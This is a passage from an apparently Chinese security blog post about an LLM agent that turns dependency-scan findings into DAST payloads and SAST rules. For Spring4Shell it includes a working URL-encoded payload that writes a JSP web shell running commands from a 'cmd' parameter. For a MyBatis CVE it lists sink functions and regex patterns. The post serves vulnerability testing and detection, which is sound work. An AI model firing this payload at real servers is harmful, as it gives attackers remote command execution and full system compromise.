            "raw": "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%40%20page%20import%3D%22java.util.*%2Cjava.io.*%22%25%3E%20%3C%25%20if%20(request.getParameter(%22cmd%22)%20!%3D%20null)%20%7B%20Process%20p%20%3D%20Runtime.getRuntime().exec(request.getParameter(%22cmd%22))%3B%20DataInputStream%20dis%20%3D%20new%20DataInputStream(p.getInputStream())%3B%20String%20disr%20%3D%20dis.readLine()%3B%20while%20(%20disr%20!%3D%20null%20)%20%7B%20out.println(disr)%3B%20disr%20%3D%20dis.readLine()%3B%20%7D%20%7D%25%3E",
            "placement": "parameter",
            "encoding": "url",
            "notes": "Creates full JSP web shell for command execution"
        }
    ],
    "detectors": [
        {
            "pattern": "response_body",
            "value": "test123",
            "hint": "Detects successful injection when test pattern appears in response"
        },
        {
            "pattern": "response_body",
            "value": "<%= "test123" %>",
            "hint": "Detects unescaped template code in response"
        },
        {
            "pattern": "response_code",
            "value": "200",
            "hint": "Successful request with 200 status after injection"
        },
        {
            "pattern": "file_created",
            "value": "access_log*.jsp",
            "hint": "Detects creation of JSP files in webapps directory"
        },
        {
            "pattern": "response_time",
            "value": "increased_delay",
            "hint": "Increased response time may indicate successful exploitation"
        },
        {
            "pattern": "custom_header",
            "value": "X-spring4shell-tested=true",
            "hint": "Custom header to track test requests"
        }
    ],
    "risk_notes": "CRITICAL RISK - Spring4Shell (CVE-2022-22965) allows remote code execution through property binding in Spring MVC. This vulnerability affects Spring Framework 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older unsupported versions. Testing should be conducted in isolated environments due to the destructive nature of the payloads. Monitor for: 1) Unauthorized file creation in webapps directories, 2) Unexpected JSP files, 3) System command execution, 4) Modified log configurations. Use caution as successful exploitation can lead to complete system compromise. Test during maintenance windows and ensure proper rollback procedures are in place."
}
```

可以看到，Agent 不仅正确识别出 `CVE-2022-22965` 是Spring4Shell漏洞，还给出了较为精准的攻击向量。它列出了利用`class.module.classLoader...`属性链来修改Tomcat日志配置，并给出了写入webshell的具体payload。这证明Agent具备了深度理解特定CVE利用细节的能力  
可以看到验证建议的输出是包括攻击请求的具体方法,api,参数名,具体payload,以及从返回包判断是否攻击成功的pattern

## SAST

## case1

system

```
You are a security expert specializing in static analysis.
Your task is to analyze vulnerability findings and extract specific code patterns
that SAST tools should look for to detect similar vulnerabilities.

Focus on:
1. Dangerous function calls and their parameters
2. Data flow patterns from sources to sinks
3. Configuration keys that might indicate vulnerabilities
4. Language-specific security anti-patterns

Provide specific, actionable patterns that can be used by SAST tools.
```

human

```
Analyze this vulnerability finding and extract SAST sink patterns:

Component: mybatis v3.5.5
Language: Java
Vulnerability: XMIRROR-E5B71403-AFA30095
Description: No description available
CVE: CVE-2020-26945
CWE: No CWE

Evidence:
No evidence available

Based on this information, extract:
1. Dangerous function calls to look for
2. Source-to-sink data flow patterns
3. Configuration keys that indicate vulnerability
4. Code patterns specific to this vulnerability type

Format your response as JSON with the following structure:
{
    "dangerous_functions": [
        {
            "function_name": "function_name",
            "parameters": ["param1", "param2"],
            "description": "why this function is dangerous",
            "confidence": "high|medium|low"
        }
    ],
    "call_patterns": [
        {
            "pattern": "regex_pattern",
            "description": "what this pattern detects",
            "severity": "critical|high|medium|low"
        }
    ],
    "config_keys": [
        {
            "key": "config.key.name",
            "dangerous_values": ["value1", "value2"],
            "description": "why this configuration is dangerous"
        }
    ],
    "data_flow_patterns": [
        {
            "source": "source_pattern",
            "sink": "sink_pattern",
            "description": "vulnerability description"
        }
    ]
}
```

输出

```
{
    "dangerous_functions": [
        {
            "function_name": "org.apache.ibatis.scripting.xmltags.TextSqlNode$BindingTokenParser.parseToken",
            "parameters": ["content"],
            "description": "Parses MyBatis binding tokens without proper sanitization, allowing OGNL expression injection",
            "confidence": "high"
        },
        {
            "function_name": "org.apache.ibatis.scripting.xmltags.TextSqlNode.apply",
            "parameters": ["context"],
            "description": "Applies dynamic SQL content with potential OGNL expression evaluation",
            "confidence": "high"
        },
        {
            "function_name": "org.apache.ibatis.scripting.xmltags.OgnlCache.getValue",
            "parameters": ["expression", "parameterObject"],
            "description": "Direct OGNL expression evaluation that can execute arbitrary code",
            "confidence": "high"
        },
        {
            "function_name": "org.apache.ibatis.parsing.GenericTokenParser.parse",
            "parameters": ["text"],
            "description": "Generic token parser that may process untrusted input containing OGNL expressions",
            "confidence": "medium"
        }
    ],
    "call_patterns": [
        {
            "pattern": "TextSqlNode.*apply.*DynamicContext",
            "description": "Detects TextSqlNode.apply calls that process dynamic SQL content with potential OGNL injection",
            "severity": "critical"
        },
        {
            "pattern": "BindingTokenParser.*parseToken.*String",
            "description": "Detects BindingTokenParser parsing untrusted content that may contain OGNL expressions",
            "severity": "critical"
        },
        {
            "pattern": "OgnlCache\.getValue\(.*\)",
            "description": "Direct OGNL expression evaluation calls that can lead to RCE",
            "severity": "critical"
        },
        {
            "pattern": "GenericTokenParser\.parse\(.*untrusted.*\)",
            "description": "Generic token parsing of potentially untrusted input",
            "severity": "high"
        }
    ],
    "config_keys": [
        {
            "key": "mybatis.configuration.default-scripting-language",
            "dangerous_values": ["xml", "dynamic"],
            "description": "XML and dynamic scripting languages may process OGNL expressions in untrusted input"
        },
        {
            "key": "mybatis.configuration.aggressive-lazy-loading",
            "dangerous_values": ["true"],
            "description": "Aggressive lazy loading may trigger unintended OGNL expression evaluation"
        },
        {
            "key": "mybatis.mapper-locations",
            "dangerous_values": ["classpath*:mapper/**/*.xml"],
            "description": "XML mapper locations that may contain dynamic SQL with OGNL expressions"
        }
    ],
    "data_flow_patterns": [
        {
            "source": "HttpServletRequest\.getParameter.*|HttpServletRequest\.getHeader.*|HttpServletRequest\.getQueryString.*",
            "sink": "TextSqlNode\.apply|BindingTokenParser\.parseToken|OgnlCache\.getValue",
            "description": "User input from HTTP requests flowing into MyBatis dynamic SQL processing with OGNL evaluation"
        },
        {
            "source": "request\.get.*|parameter\.get.*|input\.get.*",
            "sink": "GenericTokenParser\.parse|TextSqlNode\.apply",
            "description": "Untrusted parameter input flowing into MyBatis token parsing and dynamic SQL evaluation"
        },
        {
            "source": ".*\.toString\(\)|String\.valueOf.*",
            "sink": "OgnlCache\.getValue|TextSqlNode\.apply",
            "description": "Object conversion to string that may contain OGNL expressions flowing into evaluation sinks"
        }
    ]
}
```

识别出漏洞的汇点（Sink）是 `OgnlCache.getValue` 和 `TextSqlNode.apply`。在 `data_flow_patterns` 中，它构建了从 `HttpServletRequest`（Source）到危险函数（Sink）的完整数据流。SAST工具可以直接使用这个模式来扫描代码库，寻找可利用的路径

# 结论

为了篇幅考虑就不放更多case了,已经基本可以判断是可以跑通的这个流程,这个思路也没有问题,后续只需适配不同的sca输入,以及如何提取输出以自动加入sast和dast的扫描规则中即可

但是想要获得更精准的输出,可能需要更多的信息源,以及实现完整的针对补丁的patch diffing代码自动审计

目前项目已开源在GitHub(<https://github.com/P4nY0O/SCA-enhancer)，欢迎各位师傅下载体验>(配置好环境(llm api,github token)后直接python cli/agent/main.py process -i output.json -t opensca 就可以体验同款测试项目的运行过程和结果)，更欢迎通过 Issue 和 Pull Request 交流贡献。未来计划尝试探索如何实现自动补丁分析  
微信号与github同名,欢迎交流
